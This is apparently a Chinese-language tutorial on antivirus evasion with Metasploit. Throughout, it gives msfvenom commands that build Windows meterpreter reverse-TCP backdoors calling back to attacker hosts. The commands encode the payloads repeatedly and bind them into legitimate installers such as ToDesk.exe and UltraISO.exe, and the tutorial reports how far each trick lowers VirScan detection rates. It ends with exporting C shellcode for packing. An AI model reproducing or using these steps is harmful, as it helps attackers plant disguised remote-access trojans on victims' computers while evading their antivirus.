

杀软是如何检测出恶意代码的？
特征码、启发式恶意软件检查和行为。
免杀是做什么？
对特征进行混淆，打乱代码，避免杀毒软件查杀
免杀的基本方法有哪些？
自编码处理  自捆绑+编码  多重编码   接口下载式  签名伪装式

针对杀毒软件的基本检测方法，我们可有以下几种方法实现免杀：

改变特征码
改变行为
其它

由于msf被各大安全厂商盯的比较紧，所以这些常规的方法免杀效果肯定是比较差的，但有时把一两种常规方法稍微结合一下就能达到比较好的免杀效果

要用到的在线查毒工具virscan提供

https://www.virscan.org/

# 一、不处理payload直接生成样本进行检测

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.32 LPORT=4456 -f exe -o payload1.exe


通过该网站上传文件检测，发现杀毒率高达百分之50.

具体查毒链接：https://r.virscan.org/language/en/report/27ea53bab44e0a023b57c27991f02cf9

	

# 二、 MSF自编码处理payload生成样本进行检测

首先我们输入   msfvenom --list encoders   查看可以用编码模块


我们使用  x86/shikata_ga_nai 模块 免杀中使用频率最高的一个编码器

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai HOST=192.168.110.110  LPORT=4456 -f exe -o payload1.exe

进行查毒有54%的杀毒软件报毒了，这说明各大厂商对msf的编码方式都有了很大的防御手段。

	

# 三、MSF自捆绑处理payload生成样本进行检测

使用msfvenom的-x参数可以指定一个可执行文件,将payload与其捆绑，比如从windows复制一个todesk文件到kali，然后把后门payload绑定到todesk的exe文件上。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -x ToDesk.exe -f exe -o payload2.exe
```

	

上传进行查杀，查杀率是12.5%

	

# 四、MSF自捆绑+编码处理payload生成样本进行检测

结合第二种，第三种。编码方式我们再次生成样本

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=4444 -e x86/shikata_ga_nai -x ToDesk.exe  -i 10 -f exe -o payload3.exe
```

	

仅有6.25%查杀出有后门。

	

那我们继续增加编码次数

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -e x86/shikata_ga_nai -x ToDesk.exe  -i 20 -f exe -o payload4.exe

	

也仅有6.25%查杀出有后门。

	

# 五、MSF多重编码payload生成样本进行检测

后面这两种方式没有复现成功，会报错。该方法必须把msf更新到最新版本才可能执行成功。

通过管道，让msfvenom用不同编码器反复编码进行混淆。使用管道让msfvenom对攻击载荷多重编码，先用shikata_ga_nai编码10次，接着来10次的alpha_upper编码，再来10次的countdown编码，最后才生成以payload5.exe为模板的可执行文件。

msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=192.168.110.110 LPORT=4456 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -x UltraISO.exe -f exe -o payload5.exe

# 六、 生成Shellcode使用C语言调用

这部分属于免杀部分，可以不看，后续看免杀专题。

```
1、直接在linux中利用msf的meterpreter生成的文件以.c形式文件存储，得到机器码。命令：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -f c >c0001.c
```


2、改c文件，并编译，并加壳


随便写一个hello world

main() {
printf("hello world\n");
}

然后编译 并加壳

vmp加壳工具